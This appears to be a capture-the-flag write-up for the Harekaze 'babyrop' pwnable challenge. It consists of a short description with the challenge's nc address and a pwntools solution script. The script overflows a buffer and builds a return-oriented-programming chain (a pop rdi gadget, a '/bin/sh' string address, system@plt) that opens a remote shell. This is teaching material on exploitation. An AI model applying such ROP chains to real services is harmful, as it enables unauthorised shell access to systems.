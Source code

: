 # **babyrop**

#### tag : pwnable, rop

-----------------------------------------------

#### Description

>The program is running on Ubuntu 16.04.
>
>nc problem.harekaze.com 20001

-----------------------------------------------

#### Solution

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
r = remote('problem.harekaze.com', 20001)
#r = process('./babyrop')

elf = ELF('./babyrop')
system_plt = elf.symbols['system']
sh = 0x601048
#0x0000000000400683 : pop rdi ; ret
gg1 = 0x0000000000400683

p = 'a' * 0x18
p += flat(
	gg1,
	sh,
	system_plt
)

r.recvuntil('? ')
r.sendline(p)
r.interactive()
```

